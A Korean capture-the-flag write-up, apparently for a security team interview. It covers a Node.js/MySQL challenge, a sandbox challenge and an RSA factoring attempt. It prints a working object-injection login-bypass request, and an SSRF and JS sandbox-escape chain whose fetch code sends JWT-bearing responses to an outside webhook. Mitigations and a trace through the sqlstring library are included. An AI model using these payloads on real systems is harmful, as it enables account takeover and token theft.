


# Team ST4RT 2차 면접 문제풀이 보고서
>nicknamemohaji(이경준) 작성 (Last update 2022.05.22 21:30)

---

## WEB1
> TL;DR: SQL injection + Parameter Pollutuion?
> 1. Content-Type을 검증하지 않아서 JSON을 통해 Object 전달 가능
> 2. mysql2 모듈에서 딕셔너리 형태의 Object 전달시 key를 `(Backtick)으로 변환하는 트릭으로 로그인 우회

### 문제 분석
`web1/views/main.hbs` 템플릿 파일을 보면 렌더링 과정에서 전달되는 인자 `isAdmin`을 참으로 만들어야 함을 알 수 있습니다.
```html
{{#if isAdmin}}
    <h1>You are Admin</h1>
    <h1>Flag Here : ST4RT{###########REDACTED#############}</h1>
{{else}}
    <h1>You are not admin</h1>
{{/if}}
```

`isAdmin`은 `web1/routes/index.js`파일에 있는 라우팅 함수에서 결정됩니다:
```javascript
let adminCheck = query.adminCheck(req.session.user.id).then((adminCheck)=>{
           res.render('main',{
               isLogin:true,
               isAdmin:adminCheck['is_admin'],
               username:req.session.user.id`
    })
})
```
`query.adminCheck`함수는 `web1/db/mysql_query.js`에 정의되어 있으며, 데이터베이스에 있는 `is_admin`값을 확인합니다.
```javascript
 adminCheck:async function(id){
     try{
         let [rows,field]=await conn.then((connection)=>connection.query("select is_admin from users where id=?",[id]));
         return rows[0]
     }catch(error){
         console.log(error)
         return {"status":"400","msg":"bad request"}
     }
 },
```
하지만 같은 파일의 `query.userRegister`함수의 주석에서 확인할 수 있듯, 신규회원을 가입하는 방법을 통해서는 `is_admin`이 1인 계정을 만들 수 없습니다.
(필드의 기본값이 0으로 설정되어 있음)
```javascript
if(checkId==false&&checkName==false){
    await conn.then((connection)=>connection.execute("insert into users(nickname,id,password) values(?,?,?)",[nickname,id,password]))
    return {"status":"200", "msg":"success registered user infomation"}
}else{
    return {"status":'Duplicated', "msg":"there is a duplicated with either"}
}
//관리자 권한을 부여받아야 할 경우 mysql console로 직접 계정 추가해야함
```

### 풀이 과정

`/users/login`에 GET 요청으로 접속해서 나오는 폼을 이용해 로그인하면 기본적으로 MIME-TYPE이 `application/x-www-form-urlencoded`로 요청됩니다.

그러나, `app.js`의 환경설정을 확인해보면 `bodyParser.json()`미들웨어를 등록해둔 것을 볼 수 있습니다. `json`형식의 Body는 String/Array 외에도 Object/Integer등 많은 자료형을 담을 수 있으므로 json Body를 보내는 것이 유리합니다. MIME-TYPE(Content-Type 헤더)를 `application/json`으로 바꾸고 요청을 시도한 결과, 성공했습니다.



`user.id`, `user.is_admin`등의 중요 정보를 서버 측에서 세션으로 보관하고 있습니다. 세션 탈취나 변조 같은 공격 방법은 사용 불가능하기에, 관리자 계정으로 인증하기 위해 다양한 방법을 시도해봤습니다.

그러던 중, `id`필드에 Object를 넣으면 *Invalid Syntax* 에러가 뜨는 것을 발견했습니다. 분명히 쿼리의 형태는 `select is_admin from users where id=?`와 같이 Prepared Statement에 사용되는 Placeholder가 보이므로 SQLi는 불가능할 것이라고 생각했는데 당황스러웠습니다.

에러메시지를 바탕으로 디버깅해 보니, 재밌는 동작을 볼 수 있었습니다:
만약 `{key: value}`의 값이 전달된다면 이것이 쿼리문에 ``` `key`=value```로 변환되어 입력되고, `{key: value, key2: value2}`의 값은 ``` `key`=value, `key2`=value2```로 변환되어 입력되고 있었습니다. ``` ` ```(Backtick)은 MySQL에서 구분자로 사용되는데, `key`라는 행이 없으므로 에러가 발생하게 된 것입니다.

Sanitization 과정을 우회하여 임의의 코드를 실행시킬 수 있는 방법이 생긴 것입니다. 하지만, 임의로 삽입한 백틱이나 따옴표 등의 문자열은 여전히 안전하게 처리되고 있었습니다. 사용할 수 있는 것은 ``` id=`{key}`={value} ```를 어떻게 활용할 지 생각해봤고, 다음 트릭을 생각했니다:
- 쿼리가 ```where id=`id`=1```로 바뀌었을때, MySQL의 계산 로직에 따라 ```id=`id` ```이 먼저 처리됩니다. 이 값은 항상 참일 수 밖에 없습니다.
- `(true)=1`도 MySQL의 계산 로직상 참이 됩니다. 따라서 최종 결과는 `true`가 반환되는 것입니다!

이 트릭과 더불어, 다음 로직 덕분에 공격에 성공할 수 있습니다.

- `adminCheck`함수의 로직을 보면 `rows[0]`을 반환합니다.
- 데이터베이스 생성과 동시에 관리자 계정이 생성되므로 가장 첫번째 값은 관리자 계정입니다.
- 따라서 `rows[0]`은 관리자 계정의 정보를 반환할 것입니다.

---
Payload:
```
POST /users/login HTTP/1.1
Host: 9t.vc:30001
Content-Type: application/json
Connection: close
Content-Length: 69

{"id":{"id":1}, "password": {"password":1}}
```

Flag:


---
### Comments

#### 기타 문제점

- `board.js`의 게시물 업데이트 부분 코드를 보면,
```javascript
const {name,title,context}=req.body
query.getBoardWriterName(number).then(({name})=>{ ...(생략)...
```
로, 사용자가 입력한 `name`파라미터를 그대로 사용합니다. 이를 악용해 다른 사용자가 작성한 글인 것처럼 변조할 수 있습니다.

- `board.js`의 게시물 작성 부분 코드를 보면,
```javascript
if(title!=''&&context!=''){
query.createBoard(name,title,context) ...(생략)...
```
로, 사용자가 입력한 `title`과 `context`파라미터의 타입을 검증하지 않습니다. 이를 악용할 수 있는 방법은 현재 없지만, 만약 게시물 작성 전 금지어 필터링 등의 기능을 추가한다면 안전을 위해 타입을 검증해야 합니다.

#### 문제 상황에서 가능한 보완책
- `Content-Type`을 `application/x-www-form-urlencoded`로 강제해서 오브젝트를 주입하지 못하도록 수정
- `typeof(id)==="string"`인지 검증하여 오브젝트를 주입하지 못하도록 수정
- `users`테이블의 첫번째 행에 더미 데이터를 추가(첫번째 행이 리턴됐을 때 관리자 계정을 선택하지 못하도록 수정)
- 쿼리 실행 이후 `row.length === 1`인지 검증하여 정상적인 쿼리가 작동했는지 확인
- `mysql.query`함수 말고 `mysql.execute`함수를 사용하여 Prepared Statement를 올바르게 사용


#### 시도했지만 실패한 방법들
- **Prototype Pollution**: 코드를 처음 오딧할 때는,
	- `adminCheck`함수에서 에러를 발생시켜 문자열을 리턴하게 하고
	- Prototype Pollution 기법으로 모든 문자열에 대해 `is_admin`에 1을 저장
하는 방법을 생각했습니다.

`req.session.user.id`에 `id`값을 직접 넣는 것을 확인해서 여러 번 시도했지만, `id`열의 최대길이가 20글자여서 필요한 만큼(`{"__proto__":{"is_admin":1}}` : 28글자이고, 프로토타입의 프로토타입을 접근해야 한다면 그 이상으로 필요 ) 작성하지 못해서 실패했습니다.
(+ 만약 글자 수 제한이 없다 해도, 데이터베이스에 저장되는 과정에서 문자열로 처리되기에 공격에 성공할 수 없습니다.)

- **Blind SQLi**: Backtick을 사용한 트릭을 처음 발견했을 때 `userRegister->checkDupId->connection.query`를 호출하는 로직 중 checkDupId에서 에스케이프를 탈출해 Blind SQLi 기법으로 관리자 계정의 정보를 추출할 수 있을 것이라 생각했습니다. 하지만 *Prepared Statement*를 우회할 수 없어서 실패했습니다.


## ~~WEB2~~

> 이 문제는 플래그를 얻지 못했습니다. 시도한 과정을 설명하겠습니다.

1. Parser bypass to ssrf

플래그를 얻기 위해서는 (1) 로그인을 해야 하고, (2) 관리자 계정으로 로그인해야 합니다.
이때 로그인 정보는 `jwt`로 관리됩니다.

하지만 비밀키를 알 수 있는 방법이 없으므로, 로그인해야 합니다. 사용자 로그인과 관련된 `/accounts` 경로에 접근하기 위해서는 로컬에서 접근해야 합니다(`/routers/account.js:isLocal()`). `/report`엔드포인트를 이용해 내부에서 작동하는 봇이 원하는 경로를 읽게 할 수 있지만 필터링이 걸려있습니다.

[한 포스팅](https://huntr.dev/bounties/1625557993985-unshiftio/url-parse/)을 참고해서 페이로드를 작성했습니다.  [CVE-2021-3664](https://nvd.nist.gov/vuln/detail/CVE-2021-3664)로 등록된 내용입니다.

> `\`(백슬래시)를 브라우저는 슬래시와 마찬가지로 처리하지만, `url-parse`모듈에서는 이를 상대경로 표시자로 해석해서 잘못 파싱되는 점을 이용하는 공격입니다.

Payload:
```
POST /report HTTP/1.1
Host: 9t.vc
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 33

url=http:/\[REDACTED]/
```
* requestbin등의 상용 웹훅 서비스는 https 프로토콜을 사용해서, http로 작동하는 문제 서버에 `iframe` 을 참고하려고 하니  `mixed content error` 가 발생했습니다. 따라서 인증서 없이 http로 작동하는 개인 서버를 사용했습니다.

2. JS Sandbox Escape

CORS를 피하기 위해, 서버 도메인에서 작동하는 서비스가 필요합니다. `/sandbox`엔드포인트에 접근하면 자체 정의된 `safeEval`함수를 이용해 사용자의 명령을 실행하는 페이지를 사용할 수 있습니다. 이 페이지를 `iframe`으로 받아온 후, `postMessage`로 원하는 코드를 전송했습니다.

`safeEval`함수는 `proxy`를 정의해서 기본 정의된 `eval`, `console`등의 함수 context를 없애서 *referenceError*를 발생시키는 방법으로 **안전한** Eval을 실행합니다. [한 블로그](https://blog.p6.is/bypassing-a-js-sandbox/)를 참조해서 샌드박스를 우회했습니다:

`proxy`를 통해 context를 없애더라도, `String`, `Array`등의 자료형 자체를 없애버릴수는 없습니다.
=> `String`의 상속 체인을 따라 올라가며 `constructor`를 호출하는 방법을 이용해 원하는 샌드박스를 무력화할 수 있었습니다.

Payload:
```javascript
document.querySelector('iframe').addEventListener("load", function() {
	document.querySelector('iframe').contentWindow
                .postMessage(`"".sub.constructor(\\\`
                ...
                (js code here)
				...
				\\\`)()`, '*');
});

```

[ `javscript:` 로 시작하는 경로를 사용해서 임의의 코드를 실행하는 방법](https://superuser.com/questions/236085/with-chrome-how-to-use-the-the-javascript-url-pseudoprotocol)도 시도했으나, 필터링에 `http:`로 시작할 것을 요구하는 정규표현식이 있었기 때문에 실패했습니다.

3. 계정 등록 및 로그인
Payload:
```html
	    <iframe id="" src="http://127.0.0.1:80/sandbox" frameborder="0" sandbox="allow-scripts"></iframe>
    <script>
	document.querySelector('iframe').addEventListener("load", function() {

	// Register

	document.querySelector('iframe').contentWindow
		.postMessage(\`"".sub.constructor(\\\`fetch('http://127.0.0.1:80/accounts/register',
			{method: 'POST', headers: {'Content-Type': 'application/x-www-form-urlencoded'}, body: 'firstname=ab&lastname=ab&username=nicknamemohaji&password1=ab&password2=ab&email=nicknamemohaji00@gmail.com'}).then((x) => x.text()).then((x) => fetch('[REDACTED]' + x));
		\\\`)()\`, '*');


	// Login with that account
	document.querySelector('iframe').contentWindow
		.postMessage(\`"".sub.constructor(\\\`fetch('http://127.0.0.1:80/accounts/login',
			{method: 'POST', headers: {'Content-Type': 'application/x-www-form-urlencoded'}, body: 'username=nicknamemohaji&password=ab'}).then((x) => x.text()).then((x) => fetch('[REDACTED]' + x));
		\\\`)()\`, '*');

	// write code above this
});
    </script>
```

`/accounts/login`엔드포인트에서 생성된 jwt 토큰을 `set-cookie`를 통해 전송할 뿐 아니라, `response body`에도 전송하기에 그냥 `response body`에 있는 값을 긁어와 웹훅으로 전송하는 방법을 사용했습니다.

---
위의 내용까지 공격에 성공했습니다. **SSRF를 통해 내부 망에서 접근하고**(1단계), **XSS를 통해 내부 망에서 임의의 자바스크립트 코드를 실행시킬 수 있게**(2, 3단계) 되었습니다. 하지만 이후 관리자 계정으로 로그인하는 데에 어려움을 겪었고, 공격에 실패했습니다. 다음은 실패한 공격들과, 간략한 설명입니다.


- `jwt algo:none attack`: 모든 jwt 입력은 `jwt.verify`함수로 검증을 거치고, 이 함수는 [별도로 alg를 none으로 지정하지 않은 경우에는 에러를 발생시키기 때문에](https://github.com/auth0/node-jsonwebtoken/issues/185) 실패했습니다.
- `jwt signed with weak key`: 브루트포싱을 시도했지만 비밀키를 구하지 못했습니다.
- `SQLi`: 시큐어코딩이 잘 적용되어 있어 실패했습니다.
- `Race condition`: 비밀번호 초기화 로직에서 race condition 공격을 성공한다면 순간적으로 `count`를 6이상으로 올려 다음 로직을 우회할 수 있을 것이라 생각했습니다.
```javascript
cycle = row['cycle'] + 1;
if (cycle == 5 ) {
...
```
하지만 로컬에서만 접근이 가능한 특성 탓에 공격에 실패했습니다.
(경합 상황이 발생할 수 있을 정도로 짧은 시간 안에 요청을 보낸다 하더라도, DB에서 더하는 것이 아니라 로컬에서 더한 후에 업데이트 하기 때문에, 5보다 큰 수를 만들 수 없습니다.)

- `Parameter Pollution`: web1문제와 비슷한 방식으로 오브젝트를 삽입해 인증 로직을 무력화할 수 있을 것 같았습니다. 하지만 `bodyparser`미들웨어가 urlencode만 활성화되어 있기 때문에 json으로 전달하지 못했고, Dictionary-type object를전달하지 못해 공격에 실패했습니다.
(같은 key에 여러 value를 대응시켜 Array를 전달하는 방법은 성공했지만, 공격으로 발전하지 못했습니다.)
- `Mail injection`: `/api/myinfo`에 접근하면 사용자 테이블 전체 정보에서 관리자 계정의 이메일을 알 수 있습니다. 관리자 계정의 초기화를 요청하는 과정에서 Bcc 또는 cc를 이용해 초기화 코드를 이중으로 전송하는 방법을 생각해봤지만 실패했습니다. cc를 달기 위해 이메일 계정 뒤에 문자열을 추가하면 사용자 조회가 되지 않았고, `nodemailer`모듈에서도 비슷한 공격에 대한 필터링이 잘 되어 있는 것 같았습니다.

## ~~CRYPTO1~~

> 이 문제는 플래그를 얻지 못했습니다. 시도한 과정을 설명하겠습니다.

RSA에서 키를 생성하기 위해 임의의 소수 p, q가 필요한데, 주어진 코드에서 p와 q가 완전히 랜덤이 아닌 것이 n의 소인수분해를 가능하게 만들 것으로 예상합니다.

키 생성 과정을 자세히 보겠습니다.
1. 512비트의 랜덤한 정수 `r` 생성
2. 8비트이면서 211이 아닌 소수 `s`생성: s ∈{131, 137, 139, 149, 151, 157, 163, 167, 173,
    179, 181, 191, 193, 197, 199, 223, 227, 229, 233, 239, 241, 251}
3. 32비트의 랜덤한 정수 `ofs`생성
4. p0 = s * r
	=>  p = `next_prime(p0)` = p0 + delta1
5. q0 = 211 * (r + ofs)
	=>  q = `next_prime(q0)` = q0 + delta2
6. `n` = p * q

이때
n = p \* q = (p0+delta1)(q0+delta2) = p0\*q0 + q0\*delta1 + p0\*delta2 + delta1\*delta2
= (s\*211\*r\*r) + r\*(s\*delta1 + 211\*delta2) + delta1\*delta2 ≈ (s\*211\*r\*r) + r\*epsilon

그리고 2^511 <= r < 2^512이므로 `(s\*211\*r\*r)`에 의해 상위 400비트 이상이 정해진다고 말할 수 있습니다..?
n이 1024비트이므로, MSB를 예측할 수 있다는 이러한 조건은 *Coopersmith Method*를 적용할 수 있는 것으로 보입니다...

정수론에 대한 이해가 부족해서, 이후의 풀이는 더 공부해 보겠습니다.

Note) [예시](https://rkm0959.tistory.com/146)를 [몇 개](https://ctftime.org/writeup/9905) [보고](https://ctftime.org/writeup/7373) 코드를 그대로 적용해봤는데, 올바른 답을 구할 수 없었습니다.

```python
li = [131, 137, 139, 149, 151, 157, 163, 167, 173,
    179, 181, 191, 193, 197, 199, 223, 227, 229, 233, 239, 241, 251]
N = 0x76741434add8ff0bf7f36db179faac4533fad90f19feefd31d437dbba43f6ba7ab5f4a017a3aa78262075f3dede2332044e50e46d17130776182ed00567c0969b167750ce61d832555dc8c28633add0be32a0840fa77619042c9244c658037f6023b570c484fbc4cec51ab366f0a86de5e9af25b624ea42a965f1a64c814b73cc457

t = 211

for s in li:
    print()
    """
    p0 = s * r
    q0 = t * r + t * ofs = p0 * (t / s) + t * ofs
    - Upper bound: p0 * (t/s) + s * (2 ** 32 - 1)
    - lower bound: p0 * (t/s) + s * (2 ** 31)

    Q. Find delta s.t. q = q0 - delta

    Sol. make univariate ring modulo N s.t. F(x) = q0 - x
    => root of this polynomial is delta?????

    to calculate the root of polynomial...
    use Coppersmith theorem??????????


    """
    r_approx = isqrt(N / (t * s))

    p0_approx = r_approx * s
    q0_approx = r_approx * t + t * (2 ** 32 - 1)

    F.<x> = PolynomialRing(Zmod(N), implementation='NTL')
    f = x - q0_approx
    d = f.small_roots(X=2**512, beta=0.5)
    print(s, d)
    if d:
        d = d[0]
        print('delta',d)
        print('q = q_approx - delta', q_approx - d)
        q = q_approx - d
        print(f"q = {hex(q)}")
        print(int(N) % int(q))

```
---

## WEB1-Appendix. `node-mysql2`모듈의 어떤 부분에서 이런 결과가 나타났는가?

문제 코드는 `node-mysql2`모듈을 이용해 데이터베이스와 통신합니다. [소스코드](https://github.com/sidorares/node-mysql2)를 보며 왜 시큐어코딩 방식을 사용했는데도 SQLi공격이 일어났는지 확인해 보겠습니다.

1) `createConnection()`: `node-mysql2/index.js`

```javascript
const Connection = require('./lib/connection.js');
...

exports.createConnection = function(opts) {
	return new Connection({ config: new ConnectionConfig(opts) });
};
```
쿼리를 사용하기 위해서는 `mysql.createConnection`함수를 실행해 `Connection`객체를 받아온 후, `Connection.query`함수를 실행해야 합니다. 이 객체는 `/lib/connection.js`함수에 정의되어 있습니다.

2) `Connection.query()`: `node-mysql2/lib/connection.js`

```javascript
class  Connection  extends  EventEmitter  {
	...
	query(sql, values, cb) {
		let cmdQuery;
		if (sql.constructor === Commands.Query) {
			cmdQuery = sql;
		} else {
			cmdQuery = Connection.createQuery(sql, values, cb, this.config);
		}

		this._resolveNamedPlaceholders(cmdQuery);
		const rawSql = this.format(cmdQuery.sql, cmdQuery.values !== undefined ? cmdQuery.values : []);
		cmdQuery.sql = rawSql;
		return this.addCommand(cmdQuery);
	}
	...
}
```
Connection 객체의 `Connection.query(sql, values)` 함수는 `sql`파라미터에 SQL 명령문을, `values`파라미터에 Prepare한 명령문에 사용할 변수값(Array)을 전달받습니다.

> 이때 `sql`파라미터가 문자열이라면 `Connection.createQuery()`함수를 실행시켜 `Commands.Query`자료형으로 전환하지만, 주 관심사인 `Commands.Query.sql`은 처음에 입력한 평문 명령어와 다를 것이 없습니다. (`/lib/commands/query.js`)
> 따라서 이 부분은 넘어가겠습니다.

중요한 부분은 `cmdQuery.sql = Connection.format(sql, values)`입니다. 전달한 Prepared Statement와 변수값을 가지고 실제로 SQL 명령문을 생성하는 과정입니다.

3) `Connection.format()`: `node-mysql2/lib/connection.js`

```javascript
class  Connection  extends  EventEmitter  {
  ...
  format(sql, values) {
    ...
    const opts = {
      sql: sql,
      values: values
    };
    ...
    return SqlString.format(
      opts.sql,
      opts.values,
      this.config.stringifyObjects,
      this.config.timezone
    );
  }
  ...
}
```
[`SqlString`모듈](https://github.com/mysqljs/sqlstring)을 이용해 Formatting 과정을 하는 것으로 보입니다...

4) `format()`: `sqlstring/lib/SqlString.js`

```javascript
SqlString.format = function format(sql, values, stringifyObjects, timeZone) {
	...
	while (valuesIndex < values.length && (match = placeholdersRegex.exec(sql))) {
	   var len = match[0].length;

	   if (len > 2) {
	     continue;
	   }

	   var value = len === 2
	     ? SqlString.escapeId(values[valuesIndex])
	     : SqlString.escape(values[valuesIndex], stringifyObjects, timeZone);

	   result += sql.slice(chunkIndex, match.index) + value;
	   chunkIndex = placeholdersRegex.lastIndex;
	   valuesIndex++;
	 }
	 ...
	 return result;
};
```

정규표현식을 이용해 placeholder인 `?`의 위치를 확인하고, 각 placeholder마다 `Sqlstring.escape()`를 실행합니다. 실행시킨 결과는 placeholder 자리에 대입합니다.

이때 문제에서 사용하는 쿼리는 모두 `?`의 개수가 하나로 삼항연산자의 조건이 항상 거짓이므로  `value = SqlString.escape(values[valuesIndex], stringifyObjects, timeZone)`입니다. 이 함수에서 딕셔너리 타입의 객체를 어떻게 다루는지 확인하면 의문이 해결될 것으로 보입니다.

5) `escape()`: `sqlstring/lib/SqlString.js`

```javascript
SqlString.escape = function escape(val, stringifyObjects, timeZone) {
  if (val === undefined || val === null) {
    return 'NULL';
  }

  switch (typeof val) {
    case 'boolean': return (val) ? 'true' : 'false';
    case 'number': return val + '';
    case 'object':
      if (Object.prototype.toString.call(val) === '[object Date]') {
        return SqlString.dateToString(val, timeZone || 'local');
      } else if (Array.isArray(val)) {
        return SqlString.arrayToList(val, timeZone);
      } else if (Buffer.isBuffer(val)) {
        return SqlString.bufferToString(val);
      } else if (typeof val.toSqlString === 'function') {
        return String(val.toSqlString());
      } else if (stringifyObjects) {
        return escapeString(val.toString());
      } else {
        return SqlString.objectToValues(val, timeZone);
      }
    default: return escapeString(val);
  }
};
```
이때 `{id:1}`같은 딕셔너리 타입은 type이 object이면서도 `Date`, `Array`, `Buffer`등이 아니므로 `SqlString.objectToValues(val, timeZone)`이 최종적으로 실행됩니다.

> param `stringifyobjects`는 `Connection.format` 에서 인자로 전달해주어야 하는 값인데, 데이터베이스 연결 객체를 생성할 때 지정해 주어야 하는 것으로 보입니다. 문제 코드에는 별도의 설정이 없는 것으로 보이니, `stringifyobjects === undefined`로 보았습니다.

6) `objectToValues()`: `sqlstring/lib/SqlString.js`

```javascript
SqlString.objectToValues = function objectToValues(object, timeZone) {
  var sql = '';

  for (var key in object) {
    var val = object[key];

    if (typeof val === 'function') {
      continue;
    }

    sql += (sql.length === 0 ? '' : ', ') + SqlString.escapeId(key) + ' = ' + SqlString.escape(val, true, timeZone);
  }

  return sql;
};
```
파라미터 `object`의 각 key, value에 대해 각각 `SqlString.escapeId(key)`와 `SqlString.escape(val, ...)`로 Sanitzation 합니다. 이때 문제의 원인을 `escapeId`함수에서 찾을 수 있습니다.

```javascript
return  '`'  +  String(val).replace(ID_GLOBAL_REGEXP,  '``').replace(QUAL_GLOBAL_REGEXP,  '`.`')  +  '`';
```
이 부분에서 `(Backtick)이 삽입되고, 쿼리에 삽입되었을 때 DBMS는 이를 테이블 구분자로 인식하여 위의 결과를 얻을 수 있었던 것이었습니다.

***결론***

- `node-mysql.Connection.query` -> `node-mysql.Connection.format` -> `SqlString.format`->`SqlString.escape`->`SqlString.objectToValues`->`SqlString.escapeId`로 연결되는 호출 과정에서, 마지막에 있는 `SqlString.escapeId`함수에서 딕셔너리 형태의 오브젝트의 key값에 Backtick을 추가하는 것으로 확인되었습니다.
- ~~예상과 다르게~~ `?`를 구분자로 이용한 쿼리를 사용한다고 해도 알맞은 함수를 이용하지 않는다면 *Prepared Statement*가 적용되지 않고 단순히 *Sanitization*을 거친 쿼리가 입력되게 됩니다.
- 최초로 호출된 모듈(node-mysql)에 문제가 될 부분이 없더라도, 호출 체인을 따라 살펴보다 보면 모듈 내부에서 호출한 모듈(sqlstring)에서 문제가 발생할 수 있습니다.
